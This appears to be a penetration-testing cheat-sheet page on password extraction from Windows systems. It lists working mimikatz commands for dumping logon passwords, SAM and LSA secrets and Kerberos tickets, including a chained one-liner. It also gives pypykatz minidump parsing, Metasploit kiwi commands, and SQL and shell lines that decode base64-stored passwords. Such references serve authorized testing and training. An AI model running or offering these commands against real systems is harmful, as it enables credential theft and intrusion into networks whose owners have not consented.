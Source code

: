 # Password Extraction

### mimikatz/pypykatz

{% embed url="https://adsecurity.org/?page_id=1821" %}

Need to match architecture

```bash
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::sam /patch
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam /patch" "lsadump::lsa /patch" "lsadump::secrets" "exit"

pypykatz lsa minidump filename.DMP
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

### Base64 decode

```
#inside mysql 
SELECT username, CONVERT(FROM_BASE64(password), CHAR) FROM users;
SELECT username, CONVERT(FROM_BASE64(FROM_BASE64(password)), CHAR) FROM users; # 2x encoded

echo 'SOMETHING123==' | base64 -d
```
